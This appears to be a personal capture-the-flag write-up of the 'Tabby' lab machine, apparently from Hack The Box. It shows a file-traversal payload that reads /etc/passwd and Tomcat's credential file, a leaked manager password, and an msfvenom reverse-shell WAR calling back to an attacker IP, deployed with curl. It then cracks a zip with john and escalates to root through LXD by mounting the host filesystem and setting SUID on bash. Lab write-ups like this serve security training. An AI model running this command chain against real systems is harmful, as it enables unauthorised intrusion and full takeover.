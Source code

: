 1, Recon
port scan 
	22/tcp ssh
	80/tcp http
	8080/tcp http
web-content scan
	very sadly, we did not get anything useful and no existed sub-domain.

In the main page only have a useful url `http://megahosting.htb/news.php?file=statement`
And we successfully get the File traversal vulnerability

payload:`http://megahosting.htb/news.php?file=../../../../etc/passwd`
```
/etc/passwd
root:x:0:0:root:/root:/bin/bash
......
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

And when we come to the port 8080, there is a tomcat service 
There is some hints from index page
```
NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in `/etc/tomcat9/tomcat-users.xml`.
```

After guessing around and Googling a bit, I just installed Tomcat with apt install tomcat9. Then I used find to look for tomcat-users.xml, and got two results:
```
find / -name tomcat-users.xml

/usr/share/tomcat9/etc/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```

Taking new path to Tabby finds the file (displayed pretty in Firefox view-source):
```
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

Then we can successfully login to admin dashboard.
And we can find the version of tomcat `Apache Tomcat/9.0.31 (Ubuntu)`
`Important: Remote Code Execution via session persistence CVE-2020-9484`

The user tomcat has admin-gui, but not manager-gui, which means I can’t access the manager webapp:
![[Pasted image 20240909103238.png]]

The tomcat user did have another permission, manager-script. This is to allow access to the text-based web service located at /manager/text. There’s a list of commands here.

Now that I have access to the manager (even if not through the GUI)
```
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list

OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```

We can use msfvenom to create the reverse shell payload and we just need to upload it and exec it.
`msfvenom -p java/shell_reverse_tcp lhost=10.10.14.65 lport=443 -f war -o rev.10.10.14.65-443.war`

`curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/wither --upload-file rev.10.10.14.65-443.war `

Then by enumerate the web directory, we find a backup file and we can crack it
`zip2john 16162020_backup.zip > backup.hash`
`john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt`

We get the credit `admin@it`

But there is nothing useful for us to exploit, but we can try to su  user `ash`

3, shell as root
	There is nothing for  `sudo -l`
when we check `id`
```
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
Every time, when we see the group id `4(adm)`, it means we can check the logs

And group id `lxd` is also interesting.

The basic idea is that I can create a container and mount the root file system on Tabby into the container, where I then have full access to it.

There are currently no containers on the host:
```
lxc list                                                                                                                                                           
+------+-------+------+------+------+-----------+                                        
| NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |    
+------+-------+------+------+------+-----------+ 
```

```
/snap/bin/lxc image import /dev/shm/alpine-v3.20-x86_64-20240909_1509.tar.gz --alias wither-image

lxc storage create default dir

/snap/bin/lxc init wither-image container-wither -c security.privileged=true -s default

I’ll also mount part of the host file system into the container. This is useful to have a shared folder between the two. I’ll abuse it by mounting the host system root:

lxc config device add container-wither device-wither disk source=/ path=/mnt/root

lxc start container-wither

lxc exec container-wither /bin/sh

Then we can get into the /mnt/root and check the root.txt

cd /mnt/root/usr/bin
ls -l bash
chmod 4755 bash

Then just exit the container and we can get the root bash
/bin/bash -p
```
There are a better way to get the great shell
`https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1`
